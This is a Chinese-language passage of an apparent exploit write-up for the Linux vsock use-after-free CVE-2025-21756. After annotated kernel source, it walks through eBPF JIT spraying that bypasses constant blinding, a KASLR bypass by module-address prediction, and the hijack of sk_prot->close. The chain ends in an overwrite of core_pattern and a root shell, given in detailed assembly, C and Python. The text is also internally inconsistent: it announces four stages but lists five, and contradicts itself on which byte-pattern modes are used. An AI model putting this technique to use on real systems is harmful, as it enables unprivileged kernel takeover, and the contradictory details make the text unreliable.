			skb_mark_not_on_list(skb);
			/* 调用协议层的 backlog 接收处理 */
			sk_backlog_rcv(sk, skb);

			/* 每处理一个 skb 允许重新调度 */
			cond_resched();

			skb = next;
		} while (skb != NULL);

		spin_lock_bh(&sk->sk_lock.slock);
	}

	/* 清零 backlog 长度，防止生产者持续灌入导致死循环 */
	sk->sk_backlog.len = 0;
}

/*
 * sock_release_ownership - 释放套接字的所有权标记
 * @sk:  待释放所有权的 struct sock
 *
 * 清除 sk->sk_lock.owned 并调用 mutex_release，使该锁从
 * lockdep 视角完成释放。
 */
static inline void sock_release_ownership(struct sock *sk)
{
	DEBUG_NET_WARN_ON_ONCE(!sock_owned_by_user_nocheck(sk));
	sk->sk_lock.owned = 0;

	mutex_release(&sk->sk_lock.dep_map, _RET_IP_);
}
```

##### 2-4-5-3. 析构

```c
/*
 * sock_orphan - 标记套接字不可用
 * @sk:  待标记的 struct sock
 *
 * 设置 SOCK_DEAD 标志，把套接字从 socket 反向关联中摘除，
 * 并将等待队列清空。释放流程通过此函数把套接字标记为死亡，
 * 后续操作不会再通过它唤醒用户态进程。
 *
 * 修复补丁把本函数在 __vsock_release() 中的调用位置从
 * transport release 之后提前到之前，使得合法销毁路径上
 * SOCK_DEAD 在 release 钩子运行前已置位。这样一来，
 * vsock_remove_sock() 中新增的 SOCK_DEAD 守卫仍能在正常
 * 路径上通过，只有 transport 重分配路径会被守卫拦下。
 */
static inline void sock_orphan(struct sock *sk)
{
	write_lock_bh(&sk->sk_callback_lock);
	/* 标记 SOCK_DEAD，让后续操作知道套接字已进入销毁流程 */
	sock_set_flag(sk, SOCK_DEAD);
	/* 摘除 socket 反向关联 */
	sk_set_socket(sk, NULL);
	/* 清空等待队列 */
	sk->sk_wq  = NULL;
	write_unlock_bh(&sk->sk_callback_lock);
}

/*
 * vsock_sk_destruct - vsock 协议级析构
 * @sk:  待析构的 struct sock
 *
 * 清空 per-transport 上下文，重置 local/remote 地址，释放属主
 * 凭证。对象最终回到 AF_VSOCK slab 缓存。
 */
static void vsock_sk_destruct(struct sock *sk)
{
	struct vsock_sock *vsk = vsock_sk(sk);

	/* 清空 error queue 中可能残留的 MSG_ZEROCOPY 包 */
	__skb_queue_purge(&sk->sk_error_queue);

	/* 解除 transport 绑定，调用其 destruct 钩子 */
	vsock_deassign_transport(vsk);

	/* 重置地址字段为通配值 */
	vsock_addr_init(&vsk->local_addr, VMADDR_CID_ANY, VMADDR_PORT_ANY);
	vsock_addr_init(&vsk->remote_addr, VMADDR_CID_ANY, VMADDR_PORT_ANY);

	/* 释放属主凭证 */
	put_cred(vsk->owner);
}
```

#### 2-4-6. 辅助函数

##### 2-4-6-1. 地址操作

```c
/*
 * vsock_addr_init - 初始化 sockaddr_vm 结构
 * @addr:  待初始化的地址
 * @cid:   context id
 * @port:  端口号
 */
void vsock_addr_init(struct sockaddr_vm *addr, u32 cid, u32 port)
{
	memset(addr, 0, sizeof(*addr));
	addr->svm_family = AF_VSOCK;
	addr->svm_cid = cid;
	addr->svm_port = port;
}

/*
 * vsock_addr_bound - 判断地址是否已绑定到具体端口
 * @addr:  待检查的地址
 *
 * 端口不等于 VMADDR_PORT_ANY 时视为已绑定。
 */
bool vsock_addr_bound(const struct sockaddr_vm *addr)
{
	return addr->svm_port != VMADDR_PORT_ANY;
}

/*
 * vsock_addr_unbind - 把地址重置为通配值
 * @addr:  待重置的地址
 */
void vsock_addr_unbind(struct sockaddr_vm *addr)
{
	vsock_addr_init(addr, VMADDR_CID_ANY, VMADDR_PORT_ANY);
}

/*
 * vsock_addr_equals_addr - 判断两个地址是否完全相等
 * @addr:   第一个地址
 * @other:  第二个地址
 *
 * 同时比较 CID 与端口号。
 */
bool vsock_addr_equals_addr(const struct sockaddr_vm *addr,
			    const struct sockaddr_vm *other)
{
	return addr->svm_cid == other->svm_cid &&
		addr->svm_port == other->svm_port;
}
```

##### 2-4-6-2. 查找

```c
/*
 * __vsock_find_bound_socket - 在 bound hash table 中查找匹配地址
 * @addr:  待查询的地址
 *
 * 遍历 addr->svm_port 哈希到的 bucket，对每个节点执行以下检查：
 *   - 完整 (cid, port) 匹配则命中；
 *   - port 相等且至少一侧 CID 为 VMADDR_CID_ANY 则命中。
 *
 * 返回匹配的套接字，或 NULL 表示无匹配。
 *
 * 本函数在两次 connect 中的返回结果不同：
 *   - 第一次 connect：探测端口位于预留区间 P0+1..P0+24 内，
 *     逐一命中预留的 bound_fds[] 节点，返回匹配指针。
 *   - 第二次 connect：探测端口为 P0+25，落在预留区间之外，
 *     遍历哈希桶后未找到匹配，返回 NULL。
 */
static struct sock *__vsock_find_bound_socket(struct sockaddr_vm *addr)
{
	struct vsock_sock *vsk;

	/* 按端口哈希遍历 bucket 中的每个节点 */
	list_for_each_entry(vsk, vsock_bound_sockets(addr), bound_table) {
		/* 完整地址匹配直接命中 */
		if (vsock_addr_equals_addr(addr, &vsk->local_addr))
			return sk_vsock(vsk);

		/* 端口相同且任一侧使用通配 CID 时命中 */
		if (addr->svm_port == vsk->local_addr.svm_port &&
		    (vsk->local_addr.svm_cid == VMADDR_CID_ANY ||
		     addr->svm_cid == VMADDR_CID_ANY))
			return sk_vsock(vsk);
	}

	return NULL;
}
```

##### 2-4-6-3. 其他辅助函数

```c
/*
 * get_random_u32_above - 返回 (floor, U32_MAX] 区间内的随机数
 * @floor:  下界（不含）
 *
 * 均匀分布，用于 __vsock_bind_connectible 中初始化静态 port
 * 计数器。
 */
static inline u32 get_random_u32_above(u32 floor)
{
	BUILD_BUG_ON_MSG(__builtin_constant_p(floor) && floor == U32_MAX,
			 "get_random_u32_above() must take floor < U32_MAX");
	return floor + 1 + get_random_u32_below(U32_MAX - floor);
}

/*
 * vsock_transport_cancel_pkt - 取消 transport 上尚未发送的包
 * @vsk:  the vsock_sock
 *
 * 若套接字未关联 transport 或该 transport 未实现 cancel_pkt，
 * 返回 -EOPNOTSUPP。
 */
static int vsock_transport_cancel_pkt(struct vsock_sock *vsk)
{
	const struct vsock_transport *transport = vsk->transport;

	if (!transport || !transport->cancel_pkt)
		return -EOPNOTSUPP;

	return transport->cancel_pkt(vsk);
}

/*
 * sock_intr_errno - 根据等待时长决定中断错误码
 * @timeo:  剩余等待时长
 *
 * 无限制等待返回 -ERESTARTSYS，有超时限制返回 -EINTR。
 */
static inline int sock_intr_errno(long timeo)
{
	return timeo == MAX_SCHEDULE_TIMEOUT ? -ERESTARTSYS : -EINTR;
}

/*
 * sk_wait_event - 在等待队列上等待条件成立
 * @__sk:         待等待的 struct sock
 * @__timeo:      剩余超时时间
 * @__condition:  等待的条件表达式
 * @__wait:       等待队列项
 *
 * 在条件不成立时临时释放 socket 锁并进入睡眠，条件成立或被
 * 唤醒后重新获取锁。若期间发生了 disconnect，则以 -EPIPE 返回。
 */
#define sk_wait_event(__sk, __timeo, __condition, __wait)		\
	({	int __rc, __dis = __sk->sk_disconnects;			\
		release_sock(__sk);					\
		__rc = __condition;					\
		if (!__rc) {						\
			*(__timeo) = wait_woken(__wait,			\
						TASK_INTERRUPTIBLE,	\
						*(__timeo));		\
		}							\
		sched_annotate_sleep();					\
		lock_sock(__sk);					\
		__rc = __dis == __sk->sk_disconnects ? __condition : -EPIPE; \
		__rc;							\
	})
```

#### 2-4-7. 常量与宏

```c
/* 端口自动挑选时最多尝试的次数 */
#define MAX_PORT_RETRIES        24

/* bound hash table 的索引：由端口号对 VSOCK_HASH_SIZE 取模得到 */
#define VSOCK_HASH(addr)        ((addr)->svm_port % VSOCK_HASH_SIZE)

/* 返回 bound hash table 中对应的 bucket 头 */
#define vsock_bound_sockets(addr) (&vsock_bind_table[VSOCK_HASH(addr)])

/* unbound 链表固定放在 hash table 的最后一项 */
#define vsock_unbound_sockets     (&vsock_bind_table[VSOCK_HASH_SIZE])

/* 在 struct sock 与 struct vsock_sock 之间相互转换 */
#define vsock_sk(__sk)    ((struct vsock_sock *)__sk)
#define sk_vsock(__vsk)   (&(__vsk)->sk)
```

`vsock_bind_table` 的前 `VSOCK_HASH_SIZE` 项构成 bound 散列表，最后一项固定作为 unbound 链表。套接字内嵌的 `bound_table` 字段同时参与两条链表，导致仅凭该字段非空无法推断套接字当前属于哪条链表——这一点正是漏洞链条的根源。

### 2-5. Kernel One Gadget

在 2-4 的分析中，`vsock_release()` 的首条调用是 `sk->sk_prot->close(sk, 0)`。当 `skc_prot` 已被伪造为指向 CPU entry area 中的假 `struct proto` 时，这条调用解引用的便不再是内核中原有的 proto 表。若能在被释放的 `vsock_sock` 槽位上完成重新占据并覆盖 `skc_prot` 字段，便可获得一次控制流转移的机会。

然而，控制流转移到何处仍需解决两个问题：一是绕过 KASLR，二是提供一段可在内核态执行的载荷。常规路径依赖额外的信息泄露原语与完整的 ROP 链；Kernel One Gadget 则利用 eBPF JIT 编译器生成的内核侧 one gadget，通过预先喷射 JIT 映像并将 `skc_prot` 指向预测地址，使控制流直接进入一段完整的可执行载荷。该思路借鉴于 CVE-2023-4208 的 kernelCTF 利用方案，在 **CVE-2025-21756** 的利用链中同样适用。

#### 2-5-1. 属性

Kernel One Gadget 是一个可调用的内核地址，能够在不触发 panic 的情况下完成提权。其属性如下：

- 架构：x86_64
- 绕过：`sysctl.net.core.bpf_jit_harden ∈ {1, 2}`
- 稳定性：在已知模块 KASLR 绕过的前提下 100% 稳定
- `optmem_max` 需求：`0x5000`
- 是否需要用户命名空间：否
- 写入原语：任意内核内存写，108 字节，其中 38 字节不可控
- 是否要求 JIT 默认开启：是
- 是否要求调用者位于目标写入区域：是
- 是否可能长期占用一个 CPU：否（payload 完成后通过 msleep 让出 CPU）
- 最少 CPU 数：2

Payload 结束后，`r15`、`r14`、`r12`、`rbp`、`rbx` 可恢复，`r13` 被破坏。分析基于 6.x 内核。

#### 2-5-2. 背景

##### 2-5-2-1. eBPF 程序

eBPF 程序是一串在内核中运行的小型指令。用户通过 `SO_ATTACH_FILTER` 将其挂载到 socket：

```c
int fd = socket(AF_INET, SOCK_DGRAM, 0);
setsockopt(fd, SOL_SOCKET, SO_ATTACH_FILTER, &prog, sizeof(prog));
```

之后每个到达该 socket 的数据包都会触发内核执行这个 eBPF 程序，由它决定是否接受、丢弃、修改数据包等。每条 eBPF 指令是 8 字节：

```c
struct bpf_insn {
    __u8    code;       /* 操作码            */
    __u8    dst_reg:4;  /* 目标寄存器        */
    __u8    src_reg:4;  /* 源寄存器          */
    __s16   off;        /* 跳转偏移          */
    __s32   imm;        /* 立即数            */
};
```

例如，把常量 `0x11223344` 加载到累加器的指令是：

```c
struct bpf_insn insn = {
    .code    = BPF_LD | BPF_K,
    .dst_reg = BPF_REG_0,
    .src_reg = 0,
    .off     = 0,
    .imm     = 0x11223344,
};
```

##### 2-5-2-2. JIT 流程

用解释器执行字节码太慢。内核在程序第一次挂载时就把每条 eBPF 程序编译为本地机器码，即 JIT 编译器。流水线为：

```
   用户程序（cBPF 或 eBPF）
          │
          ▼  挂载到 socket
   cBPF -> eBPF 翻译（可选）
          │   net/core/filter.c : bpf_convert_filter()
          ▼
   JIT 编译器
          │   arch/x86/net/bpf_jit_comp.c : do_jit()
          ▼
   RX 区中的机器码
          │   kernel/bpf/core.c : bpf_jit_binary_pack_alloc()
          ▼
   模块内存区中的可执行映像
```

JIT 把上述加载指令降级为一条 x86 `mov`：

```
mov eax, 0x11223344        b8 44 33 22 11
```

`0x11223344` 在内存中按小端序存储，因此 JIT 映像中完整的 5 字节指令是 `b8 44 33 22 11`。若从 `b8` 之后的字节进入，CPU 会把 `44 33 22 11` 解码为 4 个独立的机器码字节。

##### 2-5-2-3. 错位执行

假设 JIT 映像如下：

```
偏移     字节            从偏移 0 解码
------  ---------------  ------------------------
0x00    b8 48 01 f2 3c   mov eax, 0x3cf20148
0x05    b8 31 c0 90 3c   mov eax, 0x3c90c031
0x0a    ...
```

若 CPU 从偏移 `1` 开始执行，它看到的第一个字节是 `48`（REX.W 前缀），与下一个字节合成更长指令：

```
偏移 1:  48 01 f2        -> add rdx, rsi
偏移 4:  3c b8           -> cmp al, 0xb8
偏移 6:  31 c0           -> xor eax, eax
偏移 8:  90              -> nop
偏移 9:  3c ...
```

错位解码产生的两条指令中，`48 01 f2` = `add rdx, rsi` 是利用者选择的真实指令，`3c b8` = `cmp al, 0xb8` 是衔接技巧。`cmp al, 0xb8` 吃掉了下一条 `mov` 指令的 `b8` 起始字节，使错位解码器跨过 `b8`，落到下一条 `mov` 的立即数字节上。这就是衔接链：每段利用者选择的字节序列都以一个"吃掉下一条指令前缀"的字节结尾。

跳入 JIT 生成的代码让利用者能在内核态执行其选择的 x86 指令，这基本等同于内核态任意代码执行。历史防护措施就是常量盲化。

##### 2-5-2-4. 常量盲化

```c
/* kernel/bpf/core.c : bpf_jit_blind_insn() */
if (bpf_jit_harden) {
    emit_mov(reg, random);
    emit_xor(reg, random ^ original_k);
}
```

当 `sysctl.net.core.bpf_jit_harden` 为 `1` 或 `2` 时，eBPF 程序中的每个立即数都会被重写。加载 `0x11223344` 的指令会被降级为：

```asm
; ---- 未启用 bpf_jit_harden ----
mov eax, 0x11223344             b8 44 33 22 11

; ---- 启用 bpf_jit_harden ----
mov eax, 0x12345678             b8 78 56 34 12
xor eax, 0x0316653C             35 3c 65 16 03
   ; 注意: 0x12345678 ^ 0x11223344 == 0x0316653C
```

试图从 JIT 映像中读取立即数的利用者不再能看到 `44 33 22 11`，而是 `78 56 34 12` 与 `3c 65 16 03`，这些值与利用者想要编码的值毫无关系。

#### 2-5-3. 技术细节

##### 2-5-3-1. 未盲化指令

盲化引擎需要知道 JIT 指令中哪些字节是常量，它会重写所有能识别出的立即数。有些指令因常量被认为无害而豁免：`shr reg, K`（`K ∈ [0, 31]`）与无条件跳转 `BPF_JMP | BPF_JA`。无条件跳转的常量是跳转偏移，在链接期才被确定：

```c
struct bpf_insn ja = {
    .code = BPF_JMP | BPF_JA,
    .off  = <chosen>,       /* 未被盲化：链接期解析 */
};
```

JIT 把 `BPF_JMP | BPF_JA` 编译为一条 x86 `jmp`，偏移为 4 字节小端序：

```
jmp <offset>            e9 <off_lo> <off_hi> <off_hi2> <off_hi3>
```

这 4 个偏移字节完全由利用者控制，且未被盲化，给出了与未加固时 `BPF_LD | BPF_K` 相同的四字节窗口。

两个大小限制：

```python
MAX_INSNS   = 4096              # BPF_MAXINSNS
OPTMEM_MAX  = 0x5000            # 默认值
MSB_LIMIT   = OPTMEM_MAX >> 8   # = 0x50

assert any_encoded_byte_high < MSB_LIMIT
```

`MSB_LIMIT` 限制来自 `optmem_max`。内核为每个 socket 的 BPF 程序预留 `optmem_max` 字节，其估计方式是每条 BPF 指令约 8 字节。如果编码后的总大小需要 `≥ 0x50` 的立即数字节，就会超出预算。

##### 2-5-3-2. 衔接模式

每个被编码的立即数最高的两个字节必须是 0。这留下三种可用字节模式。标签 (I) 或 (II) 表示错位解码器把它当作一条指令所消耗的字节数。

```asm
; ---- 模式 "break"（不可用） -------------------------------------
XX YY 00 00             ... XX YY
                        00 00          ; add byte ptr [rax], al，触碰内存

; ---- 模式 (I) --------------------------------------------------
XX YY 00 E9             ... XX YY
                        00 e9          ; add cl, ch，2 字节指令

; ---- 模式 (II) -------------------------------------------------
A0 B0 00 00 E9          movabs ..., [0xXXXXXXXXE90000B0]
```

实际只用到模式 (I) 和 "break"，并且 payload 经过设计使得 "break" 永不发生。最终 payload 只使用下面这组最小编码：

```asm
; ---- 4 字节立即数指令（模式 II）---------------------------------
b8 XX 00 00 e9          mov  eax, 0xe90000XX
35 XX 00 00 e9          xor  eax, 0xe90000XX
05 XX 00 00 e9          add  eax, 0xe90000XX
2d XX 00 00 e9          sub  eax, 0xe90000XX

; ---- 用于满足 Bi = 00 的 2 字节 "nop" ---------------------------
04 00                   add al, 0x00

; ---- 单字节指令（模式 I）---------------------------------------
54                      push rsp
55                      push rbp
50                      push rax
52                      push rdx
5d                      pop  rbp
58                      pop  rax
5a                      pop  rdx

; ---- 双字节指令（模式 I）---------------------------------------
89 45 00                mov  [rbp], eax
88 45 00                mov  [rbp], al
01 45 00                add  [rbp], eax
29 45 00                sub  [rbp], eax
```

##### 2-5-3-3. 构建块

Payload 由四个原语函数构建。

**字节编码到 eax**：目标为使 `eax == byte`。

```asm
; 从一个低字节为 0x01 的已知值开始。
mov eax, 0xe9000001             b8 01 00 00 e9

; 异或入 (0xe9000001 ^ byte)。由于起始值的高字节是 0xE9，
; 且 byte 很小，异或结果的高字节同样是 0xE9。
xor eax, (0xe9000001 ^ byte)    35 <d_lo> <d_hi> <d_hi2> <e9>
```

选择 `xor` 而非 `add`/`sub`，是因为异或操作数的低字节可以直接选择以得到精确的低字节结果，不会溢出到更高字节。

**栈指针取入 rbp**：目标为使 `rbp` 指向序列开始时的栈顶上方 `offset` 字节处。

```asm
; --- offset == 0 ------------------------------------------------
push rsp                        54          ; [rsp] = rsp
pop  rbp                        5d          ; rbp = rsp

; --- offset != 0 ------------------------------------------------
push rsp                        54          ; 把当前 rsp 保存到栈上
push rsp                        54          ; 第二份拷贝
pop  rbp                        5d          ; rbp = &second_copy
; eax = offset via 字节编码到 eax
add  [rbp], eax                 01 45 00    ; second_copy += offset
pop  rbp                        5d          ; rbp = second_copy
```

**指针偏移**：目标为给当前栈顶的指针加上 `offset`。加法逐字节进行，以避免进位传播问题。

```python
for i in range(sizeof(offset)):
    栈指针取入rbp(i)
    字节编码到eax(offset[i])
    ADD_RBP_EAX
```

每次迭代把指向栈顶上方第 `i` 个字节的指针放入 `rbp`，把 `offset[i]` 加载到 `eax`，再把 `eax` 加到 `[rbp]`。由于每次迭代只触碰一个不同的字节，进位不会错误地传播。

**写出载荷**：目标为从 `*rbp` 开始逐字节写出 `value`。

```python
for b in value:
    字节编码到eax(b)
    MOV_RBP_AL              # *rbp = al
    PUSH_RBP
    指针偏移(1)
    POP_RBP
```

每次迭代写一个字节并把 `rbp` 前进 1。

##### 2-5-3-4. 目标地址

由于 KASLR 每次启动都会随机化目标地址，利用者无法预先知道它。然而，调用 gadget 的函数其返回地址就在栈上，而差值 `dest - return_address` 是一个编译期常量，只取决于内核构建，不取决于随机偏移。把这个常量加到返回地址上就得到了目标地址：

```python
payload_address = return_address + (target_addr - gadget_addr)
```

直接使用指针偏移原语：

```asm
; rbx 已经持有返回地址（在栈上）
mov rax, delta                   ; 常量嵌入在 payload 中
add [rsp], rax                   ; 就地调整指针
```

##### 2-5-3-5. 链条终止

当 payload 主体执行完毕后，控制流需要一种处理方式：既不能返回到已经失稳的调用栈，也不应让 CPU 在忙等中空转。

**方案 A：优雅返回**

```asm
pop rax                         ; 恢复被破坏的寄存器
xor eax, eax
ret                             ; 返回到 eBPF 尾声
```

**方案 B：通过 msleep 让出 CPU**

在无法干净返回的情况下（例如调用栈已经被 payload 修改，或者伪 proto 表所在位置不能安全恢复），调用内核提供的 `msleep()` 让当前内核线程进入休眠。这一方案不消耗 CPU 周期，调度器会把执行时间交给其他任务。

```asm
; 调用 msleep(0xffffffff)，即接近无限期的休眠。
; 具体实现可以是直接 call，也可以经由一个小 stub 完成。
call msleep
```

对应的 C 语言语义为：

```c
msleep(0xffffffff);
```

调用 `msleep` 后，当前线程从运行队列中移除并进入不可中断睡眠，直到给定的超时时间（接近最大 millisecond 值）到期或收到显式唤醒。由于 payload 完成后不会再有外部信号唤醒它，线程实际效果上是长期睡眠。

选择 `msleep` 而非忙等循环的原因有三点：

- **不占 CPU**：休眠线程不参与调度，CPU 可以运行其他任务。相比之下，忙等循环会持续占用一个核心，影响内核其他路径的响应。
- **保持栈状态稳定**：休眠不改变当前内核栈内容，如果后续需要从其他路径追溯现场，栈上的返回地址、`rbp` 链等都保留原样。
- **与 CEA worker 的 #PF 循环配合更平滑**：CEA worker 在用户态不断触发 #PF 以刷新 entry stack；被 payload 阻塞的内核线程若处于休眠状态，不会与 worker 争抢 CPU 时间片，也不会导致 waker 无法及时被调度。

方案 A 优先，只有在调用栈无法安全恢复时才使用方案 B。两种方案都避免了长时间占用 CPU。

##### 2-5-3-6. fnsave 压缩

完整的逐字节写载荷原语无法塞进 `optmem_max = 0x5000` 的预算。它被替换为一条把 x87 FPU 状态复制到内存的指令：

```asm
dd 30                   fnsave [rax]
```

`fnsave` 把 108 字节的 FPU 状态写入 `[rax]`：

```c
struct fpu_state {          /* 总计 108 字节 */
    __u16 cw;               /* 控制字 */
    __u16 __pad0;
    __u16 sw;               /* 状态字 */
    __u16 __pad1;
    __u16 tw;               /* 标签字 */
    __u16 __pad2;
    __u32 ip;               /* 指令指针 */
    __u16 ip_cs;
    __u16 ip_op;
    __u32 dpo;              /* 数据指针偏移 */
    __u16 dpo_ds;
    __u16 __pad3;
    struct fp_reg st[8];    /* 8 × 10 字节寄存器 = 80 字节 */
} __attribute__((__packed__));
```

8 个浮点寄存器 `st[0..7]` 保存 payload 字节。用户态用 `fldt`（加载 80 位浮点）把 `st[0..7]` 设置为所需字节。内核不会碰它们，因此这些值会一直保留到 shellcode。代价是 38 字节不可控的垃圾：结构体的非 `st` 字段，以及 `st(0)`。108 - 38 = 70 个可用字节。

```asm
; ---------- 周围代码 ----------
.. e9                   ; 前一个衔接字节吃掉了 jmp 的 e9
dd 30                   fnsave [rax]
00 00                   add byte ptr [rax], al
..                      ; 真正的 eBPF JIT 代码
```

`rax` 是有效指针，`add [rax], al` 不会触发缺页。payload 最前面的几个字节本来就被前面的指令破坏，而链终止又依赖回到 eBPF 代码，因此这条指令被用作出口。

#### 2-5-4. 稳定性

##### 2-5-4-1. 随机空洞

```c
/* kernel/bpf/core.c : bpf_jit_binary_pack_alloc() */
hole  = min_t(unsigned int,
              size - (proglen + sizeof(*ro_header)),
              BPF_PROG_CHUNK_SIZE - sizeof(*ro_header));
start = get_random_u32_below(hole) & ~(alignment - 1);

*image_ptr = &ro_header->image[start];
```

每个 JIT 映像开头都有一段随机的填充字节。`start` 总是按 `alignment` 字节对齐。典型值 `hole = 56`、`alignment = 4`，随机偏移是 `{0, 4, 8, ..., 52}` 之一。

##### 2-5-4-2. nop 滑梯

指令长度为 4 的倍数、总长至少 56 字节的 nop 滑梯可以吸收任何随机 `start` 并落到 payload 上。滑梯使用 `neg eax`：

```asm
; ----- JIT 对每条 BPF_ALU | BPF_NEG 发出的指令 -----
f7 d8                   neg eax         ; 2 字节长

; ----- 从偏移 0 解码 -----
f7 d8                   neg eax         ; 真实指令
f7 d8                   neg eax
e9 A0 B0 00 00          jmp 0xB0A0(*)

; ----- 从偏移 1 解码 -----
d8 f7                   fdiv st(0), st(7)
d8 f7                   fdiv st(0), st(7)
d8 e9                   fsubr st(0), st(1)
A0 B0 .. ..             ...
```

`d8 f7` 是 `fdiv st(0), st(7)`，一次浮点除法，payload 会忽略它。由于序列 2 字节长且 4 字节对齐，滑梯无论初始随机偏移是多少都有效。副作用是 `st(0)` 被破坏，`fnsave` payload 已经考虑到这一点。

#### 2-5-5. KASLR 绕过

##### 2-5-5-1. JIT 映像位置

eBPF JIT 映像由 `module_alloc` 分配，它是对 `vmalloc` 的一层薄封装，限定在模块区。

```python
MODULE_VADDR = 0xffffffffc0000000
PACK_SIZE    = 2 * 1024 * 1024        # 每个 pack 2 MB
PAGE         = 0x1000

def get_module_load_offset():
    # 每次启动调用一次，之后保持不变。
    # 随机范围：[1, 1024] * PAGE_SIZE，即最多 4 MB。
    return random.randint(1, 1024) * PAGE
```

##### 2-5-5-2. 分配模式

`__vmalloc_node_range()` 顺序地提供分配，每次分配后有一个守护页。每个 pack 是 2 MB。虚拟内存布局为：

```
MODULES_VADDR   应用 module_load_offset 后的真实基址
|               |
|<  R * PAGE  >|< PACK 0 >G< PACK 1>G< ... >G< PACK n>G< PACK n+1 >G< PACK n+2>
                                                  |
                           利用者控制的数据从这里开始
```

`R` 是模块加载偏移。`G` 是守护页。每个 `PACK` 是 512 页 4 KB。

##### 2-5-5-3. 可预测性

两个事实共同作用：`vmalloc` 一个接一个地提供请求，一旦序列已知，后续分配就是可预测的；`get_module_load_offset()` 只在 1 到 1024 页之间选择，如果利用者分配至少 1024 个页大小的映像，滑梯总能覆盖随机偏移。

##### 2-5-5-4. 命中率

如果利用者分配 1024 个页大小的映像，守护页每 pack 损失一页，而只有两个 pack：

```python
N_IMAGES = 1024
GUARD    = 1                    # 每个 pack 损失一页
hit_rate = (1024 - GUARD) / 1024
assert hit_rate == 1023 / 1024  # ≈ 99.9%
```

##### 2-5-5-5. 预测地址

```python
payload_addr = (
    MODULE_VADDR
    + n * 512                    # 前面的 pack
    + n * GUARD                  # pack 之间的守护页
    + N_IMAGES                   # 滑梯覆盖随机范围
    + X                          # 绕过每个映像的随机空洞
)
```

`X = 84` 是跳过目标映像中随机空洞所需的偏移：

```python
PROLOGUE       = 27      # eBPF 函数尾声，字节数
MAX_HOLE       = 56      # 随机空洞上限
MISALIGNMENT   = 1       # 破坏 4 字节对齐，让 CPU 从奇偏移进入

X = PROLOGUE + MAX_HOLE + MISALIGNMENT
assert X == 84
```

由于 nop 滑梯能吸收任何不超过 `hole` 的随机 `start`，选择 `X = 84` 无论该映像的实际随机偏移是多少都会落在滑梯内。

##### 2-5-5-6. 大载荷

当 payload 超过一页时，每个滑梯映像不能直接容纳它。滑梯被构造为一串页大小的映像，每个跳转到下一个。每个映像充当一个精细的 nop，链条终止于真正的 payload。

```asm
; 跨映像调用 gadget，由 BPF_ALU|BPF_RSH 且 K=1 构建：
neg eax                 f7 d8
shr eax, 1              d1 e8
jmp (0x80-*)            e9 80 00 00 00

; ----- 从偏移 1 解码 -----
d8 f7                   fdiv st(0), st(7)
d8 d1                   fcom st(1)
e8 e9 80 00 00          call +0x80ee
```

`BPF_RSH` 提供了 `call` 前缀，随后的 `jmp` 编码出一个大致页对齐的调用偏移。

朴素的递归可深达 1024 帧，会耗尽栈。一个短的尾调用 payload 改写栈上的返回地址并返回。

```asm
; 改写所需的 gadget：
44 0b 00                or  r8d, dword ptr [rax]
44 03 00                add r8d, dword ptr [rax]
44 01 00                add dword ptr [rax], r8d
```

```python
# 分三步令 r8d = 0x1000。
r8d = -1                                       # or  r8d, [rax]，其中 [rax] = -1
r8d = r8d + *rax if *rax == 0x1000 else ...    # add r8d, [rax]
*return_address += r8d                         # add [rax], r8d
```

nop 滑梯布局：

```
[ IMAGE 0x0000 ]（大小 = 0x1000）
 : call IMAGE +0x8000 + A
  ..
  A  : add B to [rsp]
       push [rsp]
       ret
  ...
  A+B: add 0x1000 to [rsp]
       push [rsp]
       ret

[ IMAGE 0x1000 ]（大小 = 0x1000）
  0  : call IMAGE +0x8000 + A
  ..
  A  : add B to [rsp]
       push [rsp]
       ret
  ...
  A+B: add 0x1000 to [rsp]
       push [rsp]
       ret

...

[ IMAGE 0x8000 ]（大小 = 0x1000）
  0  : call IMAGE +0x8000 + A
  ..
  A  : add B to [rsp]
       push [rsp]
       ret
  ...
  A+B: add 0x1000 to [rsp]
       push [rsp]
       ret

...
```

```python
# 命中率分析：
PAGES_PER_PACK = 512
PAYLOAD_PAGES  = 7
RANGE_LIMIT    = 8       # 初始调用必须落在 8 页之内

hit_rate = 2 * (PAGES_PER_PACK - PAYLOAD_PAGES - RANGE_LIMIT) / 1024
assert hit_rate > 0.97
```

最终结果是一个不依赖 KASLR、命中率接近 100% 的无特权内核 one gadget。

#### 2-5-6. 与利用链的衔接

在 **CVE-2025-21756** 的利用链中，Kernel One Gadget 的入口点是 `vsock_release()` 中的 `sk->sk_prot->close(sk, 0)`。整体衔接可分为四个阶段。

**第一阶段：JIT 映像喷射**

在漏洞触发之前，主流程完成 eBPF JIT 映像的喷射。程序构造一条完整的 eBPF 指令序列——前段是 nop 滑梯，中段是错位衔接字节，尾段是实际载荷——然后通过 `SO_ATTACH_FILTER` 把它挂载到大量 socket 上。挂载触发 JIT 编译器把 eBPF 字节码翻译为 x86 机器码，映像被放置在模块内存区的可预测地址上。同一阶段计算出预测的载荷地址并保存起来，供后续阶段使用。

**第二阶段：伪造 skc_prot 并准备 CPU entry area**

msg_msg-2k 喷射把被释放的 `vsock_sock` 槽位重新占据，覆盖 `sk->__sk_common->skc_prot` 字段，使其指向 CPU entry area 中的 payload 地址。同一时期，CEA 工作进程通过 sgdt 读取 CPU entry area 的运行时基址，并以 #PF 循环把伪造的 `struct proto` 表持续写入 payload 地址处。假 proto 表的 `close` 成员被设置为第一阶段预测的 JIT 载荷地址。

**第三阶段：触发控制流转移**

`close()` 系统调用在被释放的 `victim_fd` 上执行。内核沿 `sock_close()` → `sock->ops->release()` → `vsock_release()` 分发，第一行 `sk->sk_prot->close(sk, 0)` 通过伪造的 `skc_prot` 解引用并跳转，控制流进入 JIT 载荷。此时内核态的指令执行已由利用者选择。

**第四阶段：载荷执行与善后**

JIT 载荷在内核态覆盖 `/proc/sys/kernel/core_pattern`，使其以 `|/proc/%P/exe` 为前缀。载荷完成后不返回已经失稳的调用栈，而是调用 `msleep` 让当前内核线程进入长时休眠，从而让出 CPU 而不影响其他流程。此后一旦有进程发生崩溃，内核会以 root 身份执行 core dump 处理程序，即 exploit 二进制自身。

**第五阶段：接管 stdio 并启动 shell**

被重新执行的 exploit 二进制通过 `pidfd_getfd` 从原进程接管 stdin/stdout/stderr，然后调用 `execve` 启动一个 root 权限的 shell。至此整个利用链闭环：从一个普通的 vsock socket 操作出发，最终获得了一个完整的 root shell。

### 2-6. 触发条件

**CVE-2025-21756** 的触发依赖一组彼此配合的前置条件。它们分布在三个层面：内核编译配置、运行时权限，以及套接字操作序列。任何一个条件缺失，链条都会在对应环节中断，无法推进到 UAF 写。

#### 2-6-1. 内核配置

vsock 子系统在通用发行版中并非默认启用。要让漏洞路径可达，内核编译时需要打开以下选项：

```
CONFIG_VSOCKETS=y
